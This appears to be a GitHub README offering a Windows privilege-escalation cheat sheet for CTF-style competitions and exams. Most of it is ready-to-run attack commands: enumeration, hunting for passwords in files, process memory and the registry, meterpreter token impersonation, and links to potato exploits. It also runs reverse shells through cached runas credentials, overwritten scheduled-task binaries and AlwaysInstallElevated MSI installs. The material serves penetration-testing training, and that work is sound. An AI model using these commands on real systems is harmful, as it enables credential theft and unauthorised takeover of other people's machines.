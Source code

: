 # Windows-PrivEsc-full-guide UNDER DEVELOPMENT

Hi Everybody! I made this repo to share the privilege escalation techniques I tend to use on Windows based systems. Most of the tools ore working perfectly in CTF like competitions/exams. Use them and the tools on your own responsability, if you mess up an an coorporative or your own system, that's gonna be your fault and not mine! Now let's get into it.

## Enumeration

basic-enum

hostname
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe

user-enum

whoami
whoami /priv
whoami /groups
netuser
netuser "USERNAME"
net localgroup
net localgroup "GROUPNAME"
net accounts

network-enum

ipconfig
ipconfig /all
arp -a
route print
netstat -a

password-hunting

findstr /si password *.txt *.ini *.config
procdump.exe -accepteula -ma <proc_name_tasklist>
Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView

service-enum

sc query
wmic service list brief
sc query windefend

firewall-enum

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

## Paths:

### Kernel exploits:

Execute the systeminfo command on the compromised system and save it in a file. Later you can feed this file into automated tools like windows-exploit-suggester or wesng. Also, you can look up kernel exploits manually using google, bing or other search engines.

If you have a meterpreter shell you can execute the following command to list out all the available kernel exploits:

run post/multi/recon/local_exploit_suggester

Common ones in CTFs are MS16-014 and MS09-012, I saw these popping up multiple times.

### Token impersonation

Tokens are like cookies when accesing to a website. They are assigned to every user upon logging in. The local administrator users got two of these tokens, one with the same priviliges as the a regular user and one with admin priviliges. When the local admin trying to execute a program with admin priviliges a window will pop up warning the user that the program may make changes on the system (UAC).

To make these type of attack work the compromised user must have the SeImpersonatePrivilege enabled, you can check for this with the whoami /priv command. Try the following exploits:

https://github.com/ohpe/juicy-potato          | works on older machines better (win7 and older)

https://github.com/antonioCoco/RogueWinRM     | winrm service must be stopped to make this work (default on win10 but not on Windows Server 2019)

https://github.com/CCob/SweetPotato           | a combination of potato attacks

https://github.com/itm4n/PrintSpoofer         | my go-to for newer systems

If you have a meterpreter shell you can use the a module called incognito with the following commands:

load incognito
list_tokens -u
impersonate_token "USERNAME"

### Runas

Windows includes a useful command called RunAs that enables a user to run a program as a different user if credentials are known. If a user’s credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.

Check for cached credentials using the following command:

cmdkey /list

If you find the cached credentials of an administrator create a reverse shell or download one, transfer it to the machine and execute it with the following command to get admin access:

runas /savecred /user:User "Shell to execute"

e.g: runas /savecred /user:admin C:\reverse.exe

Make sure to set up a listener to catch the connection;).

For those who like to use tools for everything I recommend mimikatz and lasagne for these type of escalation attempts.

### Unattended Windows Installations

Administrators who need to install Windows on multiple hosts can use Windows Deployment Services, enabling them to deploy a single operating system image to several hosts over the network. This type of installation is known as an unattended installation, as it doesn't require user interaction.An administrator account is necessary for performing the initial setup of such installations, which may result in the storage of the account information on the machine in one of the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

### Scheduled Tasks

Check for scheduled tasks using schtasks. Use the following commands to retrive more information about the task:

schtasks /query /tn $taskname$ /fo list /v

For us there are two important parameters when setting up a scheduled task: the "Task to Run" parameter, which specifies what will be executed by the task, and the "Run As User" parameter, which determines the user account that will be used to run the task. If you can overwrite the binary of "Task to run" you can control what's gonna be executed. Check the permissions using icacls.

icacls c:\tasks\randomtask.exe

Rewrite it with a reverse shell of your choice and execute it with the following command or similar:

schtasks /run /tn randomtask.exe

### AlwaysInstallElevated

Installer files for Windows, commonly referred to as .msi files, are utilized to install software applications onto a system. Normally, these files run with the same privilege level as the user who initiated the installation. Nevertheless, it's possible to adjust the configuration to allow them to run with elevated privileges from any user account, including unprivileged ones. As a result, it's feasible for a malicious MSI file to be generated that could execute with administrative privileges.

Check for these two registers, both of them must be set to pull of this escalation path:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

Create a reverse shell and upload it to the victim machine and use the following command to execute it:

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

### Password hunting

You can query the registries that are containing the word password with the following command:

reg query HKLM /f password /t REG_SZ /s

You can check each registry with the reg query command for more information.

e.g: reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

Pretty time consuming doing it manually, but if nothing works give it a go, otherwise use automated tools for this task.














